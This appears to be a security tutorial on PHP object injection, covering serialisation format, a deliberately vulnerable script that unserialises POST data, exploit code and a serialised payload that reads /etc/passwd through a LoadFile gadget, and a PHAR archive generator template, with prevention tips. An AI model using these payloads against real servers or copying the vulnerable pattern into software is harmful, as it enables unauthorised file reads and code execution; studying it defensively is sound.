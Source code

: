 # PHP Object Injection

## Introduction

PHP Object Injection is a type of an insecure deserialisation attack which can result in arbitrary code execution.

#### Magic Methods

[PHP Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php) are a set of reserved methods for PHP objects which can be defined and which are automatically invoked in certain situations. Whilst it is possible to achieve code execution entirely by using normal methods on objects, magic methods can make the process easier.

## Serialisation

PHP has functionally which allows arbitrary objects to be turned into strings and then later retrieved as objects from those same strings. This is achieved through the `serialize()` and `unserialize()` functions. When an adversary has control over the object which gets deserialised, they can manipulate the input in such a way to make the PHP script perform arbitrary actions.

```php
<?php
class User
{
	public $name;
	public $isAdmin;
}

$user = new User();
$user->name = "cr0mll";
$user->isAdmin = False;

echo serialize($user);
?>
```

![](<../../Exploitation/Web/Resources/Images/PHP Object Injection/Object Serialisation.png>)

The serialisation string follows the _type:data_ paradigm and has the following structure:

|   Type  |                             Format                             |
| :-----: | :------------------------------------------------------------: |
| Boolean |                            `b:value`                           |
| Integer |                            `i:value`                           |
|  Float  |                            `d:value`                           |
|  String |                       `s:length:"value"`                       |
|  Array  |                        `a:size:{values}`                       |
|  Object | `O:name_length:"Class_name":number_of_properties:{properties}` |

## Deserialisation

Deserialisation is the inverse operation - the `unserialize()` function takes a string and converts it to a PHP object (or normal variable). When the string passed to `unserialize()` is user-controlled, an adversary can craft a custom string which will result in an object with values of the attacker's choice. When these values are later used by the PHP application, they can alter its behaviour. Take a look at the following example:

```php
<?php
class LoadFile
{
	public function __tostring()
	{
		return file_get_contents($this->filename);
	}
}

class User
{
	public $name;
	public $isAdmin;
}

$user = unserialize($_POST['user']);

if $user->isAdmin
{
	echo $user->name . " is an admin.\n"
}
else
{
	echo $user->name . " is not an admin.\n"
}
?>
```

In order to achieve arbitrary code execution, object injection relies on [PHP Gadgets](https://github.com/ambionics/phpggc) - pieces of code (typically classes) that the PHP script has access to. Usually, PHP code runs in some sort of a framework - when this is true, it is rather easy to find gadgets. Here, however, we do not have that luxury.

The `User` class is only a storage container - it has no functionality. On the other hand, the `LoadFile` class _can_ do some stuff. It has the `__tostring` magic method defined and it returns the contents of the file with the provided filename.

We can manipulate the `user` object. Therefore, it is possible to set its `name` to an object - namely a `LoadFile` object with the file name set to anything we like. When the server receives this malicious `user` with an embedded `LoadFile` object, it is going to attempt to turn it into a string when `echo` is called. The embedded `LoadFile` object has its `filename` set to `/etc/passwd` for example, and so `file_get_contents()` is going to read this file, return its contents as a string and echo will print them out for us. Here is the exploit code:

```php
<?php
class LoadFile
{
	public function __tostring()
	{
		return file_get_contents($this->filename);
	}
}

class User
{
	public $name;
	public $isAdmin;
}

$obj = new LoadFile();
$obj->filename = "/etc/passwd";

$user = new User();
$user->name = $obj;
$user->isAdmin = true;

echo serialize($user);
?>
```

When we run this, we get the following serialisation string for the malicious `user`:

```bash
O:4:"User":2:{s:4:"name";O:8:"LoadFile":1:{s:8:"filename";s:11:"/etc/passwd";}s:7:"isAdmin";b:1;}
```

If we send it in a post request to the server, it will retrieve `/etc/passwd` for us:

![](<../../Exploitation/Web/Resources/Images/PHP Object Injection/Object Injection Success.png>)

#### Prevention

Never allow direct user control over the data passed to `unserialize()`.

## PHAR Files

PHAR is the PHP Archive format and can allow for object injection even when there is no direct `unserialize()` call - provided that there is a way to upload a file to the server. Phar archives require neither a specific extension nor a set of magic bytes for identification which makes them especially useful for bypassing file upload filters.

The format of the archive is the following:

* Stub - must contain `<?php __HALT_COMPILER(); ?>`
* Manifest
* Metadata - contains the serialised data
* Contents - the archive contents
* Signature - for integrity verification

![](<../../Exploitation/Web/Resources/Images/PHP Object Injection/Phar Hex Dump.png>)

You would be quick to think that you can just inject code into the stub and it will be executed, but that is not the case. Where the stub really shines is the fact that it can contain anything before the `<?php __HALT_COMPILER(); ?>` part. This means that the stub can be used to imitate other file formats.

Under the hood, PHAR stores metadata in a PHP-serialised format which needs to be deserialised when PHP uses the archive. In order for this to happen, the server needs to access the archive using the `phar://` stream wrapper. It is for this reason that a way of uploading files to it is necessary.

#### Generating the Payload

If you try generating a phar file using PHP, you will likely run into the following error:

![](<../../Exploitation/Web/Resources/Images/PHP Object Injection/Phar Generation Error.png>)

In this case, you will need to set `phar.readonly = Off` in your `/etc/php/<version>/cli/php.ini` file (this is not required on the server, only on your machine). Afterwards, you can use the following code to generate the phar file:

```php
<?php
$phar = new Phar("archive.phar"); # a .phar extension is required here but not when the archive is accessed using phar://
$phar->startBuffering();

$prefix = ...; # The data used for imitating another file format
$phar->setStub($prefix . "<?php __HALT_COMPILER(); ?>");

$payload = ...; # Object injection payload
$phar->setMetadata(serialize($payload));

$phar->addFromString("test.txt", "test"); # Optional
$phar->stopBuffering();
?>
```

The extension of the file can then be changed to anything. Subsequently, the file will need to be uploaded to the server. Once it is there, a way to make the server perform a file operation with `phar://<filename>` is required.

Additionally, there are a few caveats which need to be taken into account. The payload inside the object injection chain may only use the `__wakeup()` and `__destruct()` magic methods. Moreover, any file paths inside it must be absolute because phar files deal with context in a weird way when they are loaded.

### Prevention

The only way to completely prevent phar file abusing is to disable the `phar://` stream wrapper altogether:

```cpp
stream_wrapper_unregister('phar');
```
